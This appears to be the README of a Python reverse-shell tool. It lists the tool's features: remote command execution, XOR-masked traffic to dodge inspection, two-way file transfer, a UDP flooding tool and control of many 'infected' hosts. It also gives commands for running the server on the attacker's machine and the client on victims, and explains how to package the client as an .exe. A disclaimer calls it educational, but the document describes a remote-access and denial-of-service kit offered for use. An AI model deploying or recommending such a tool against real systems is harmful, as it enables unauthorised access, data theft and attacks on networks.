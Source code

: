 # reverse_shell
> A reverse shell 

DISCLAIMER: This software is provided for educational purposes and as a proof of concept. The developer(s) do not endorse, incite or in any other way support unauthorised computer access and networks disruption.

NOTE : As of v0.0.3 folder `min` has been added. Since the new version has many more features not essential to the main functionality (a reverse shell that is), min will not recieve any more features beyond v0.0.3 and will only get bug and performance related fixes.

## Features

* Remote Command Execution
* Trafic masking (XORed insted of cleartext); for better results use port 443[1]
* Built-in File/Binary transfer (both ways) over the masked trafic
* Built-in UDP Flooding tool
* Multiple/All Hosts management; order File/Binary transfer and UDP Flood from Multiple/All connected Hosts
* Client script is tested and is compatible with PyInstaller (can be made into .exe)[2]

*[1]The idea for XORing as well as the skeleton for the client came from [primalsecurity.net](http://www.primalsecurity.net) so if you like this pack of scripts you'll probably love what they do

*[2]Again check [primalsecurity.net's](http://www.primalsecurity.net) perfect blogpost about producing an .exe

## Deployment:

* `rev_shell_server.py` or `rev_shell_server_min.py` is situated at the attacker's machine and running to accept connections
* `rev_shell_client.py` or `rev_shell_client_min.py` is situated in the infected machine(s) and will initiate the connection and wait for input. 

## Execution:

* Server:
```sh
  python rev_shell_server.py (max_connections) 
```
max_connections defaults to 5 if left blank

* Client: 
```sh
python rev_shell_client.py server_ip
```

Many changes can be made to fit individual needs.

As always if you have any suggestion, bug report or complain feel free to contact me.

## Todo

* Fix logic bug where if a dirrect command to Host OS has no output Server displays command not recognised
* Fix logic bug where if a dirrect command's to Host OS execution is perpetual the Server deadlocks

## License

MIT
